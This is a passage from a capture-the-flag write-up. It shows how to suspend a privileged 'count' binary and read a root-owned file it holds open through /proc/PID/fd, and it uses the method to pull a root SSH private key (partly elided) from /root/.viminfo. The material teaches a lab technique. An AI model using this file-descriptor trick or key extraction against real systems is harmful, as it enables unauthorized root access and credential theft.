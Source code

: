 ```

dasith@secret:/opt$ ./count           
Enter source file/directory name: /root/.profile

Total characters = 161
Total words      = 39
Total lines      = 10
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ ps auxww | grep ./count
dasith      1551  0.0  0.0   2488   592 pts/0    T    16:26   0:00 ./count
dasith      1553  0.0  0.0   6432   740 pts/0    S+   16:27   0:00 grep --color=auto ./count
dasith@secret:/opt$ head /proc/1551/fd/3
# ~/.profile: executed by Bourne-compatible login shells.

if [ "$BASH" ]; then
  if [ -f ~/.bashrc ]; then
    . ~/.bashrc
  fi
fi

mesg n 2> /dev/null || true

```

#### Find SSH Key

I’ll note that `.viminfo` is readable in `/root`. This is a file that supports the `vim` text editor, and can include history. I’ll use the same trick to read it:

```

Enter source file/directory name: /root/.viminfo

Total characters = 16370
Total words      = 2228
Total lines      = 562
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ pidof count
1557                                    
dasith@secret:/opt$ cat /proc/1557/fd/3
# This viminfo file was generated by Vim 8.1.
# You may edit it if you're careful!
...[snip]...
# Registers:
""0     LINE    0
        -----BEGIN OPENSSH PRIVATE KEY-----
        b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
        NhAAAAAwEAAQAAAYEAn6zLlm7QOGGZytUCO3SNpR5vdDfxNzlfkUw4nMw/hFlpRPaKRbi3
        KUZsBKygoOvzmhzWYcs413UDJqUMWs+o9Oweq0viwQ1QJmVwzvqFjFNSxzXEVojmoCePw+
...[snip]...
        xhDYPO15YxLBhWJ0J3G9v6SN/YH3UYj47i4s0zk6JZMnVGTfCwXOxLgL/w5WJMelDW+l3k
        fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==
        -----END OPENSSH PRIVATE KEY-----
...[snip]...

```
